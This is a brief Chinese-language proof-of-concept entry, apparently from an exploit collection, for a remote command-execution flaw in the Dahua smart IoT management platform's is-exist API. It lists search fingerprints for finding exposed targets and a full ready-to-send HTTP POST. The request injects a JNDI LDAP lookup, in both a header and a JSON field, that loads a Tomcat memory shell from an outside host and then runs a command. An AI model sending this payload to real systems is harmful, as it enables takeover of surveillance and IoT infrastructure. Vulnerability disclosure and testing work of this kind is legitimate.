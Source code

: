 ﻿# 大华智能物联综合管理平台 is-exist 命令执行漏洞

> 更新时间：2024-05-07

> 漏洞编号：

> 漏洞说明：智能物联综合管理平台 is-exist 接口处存在远命令执行漏洞，使得攻击者可以通过构造特定的请求远程执行恶意代码。此漏洞可能导致攻击者获取系统权限、执行任意命令，严重威胁系统的机密性和完整性。

> 漏洞特征：body="*客户端会小于800*" || body="/static/fontshd/font-hd.css"

> 验证脚本：HTTP

```
POST /evo-apigw/evo-brm/1.2.0/user/is-exist HTTP/1.1
Connection: close
Accept: application/json, text/plain, /
Accept-Encoding: gzip
Accept-Language: zh-CN
Authorization: 
Content-Type: application/json;charset=utf-8
Referer: ${jndi:ldap://www.baidu.com/Basic/TomcatMemshell3}
Timeoffset: -28800000
User-Client: 1
cmd: whoami

{"loginName":"${jndi:ldap://www.baidu.com/Basic/TomcatMemshell3}"}
```

> 响应代码特征：406

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：大华智能物联综合管理平台 is-exist 命令执行漏洞.poc

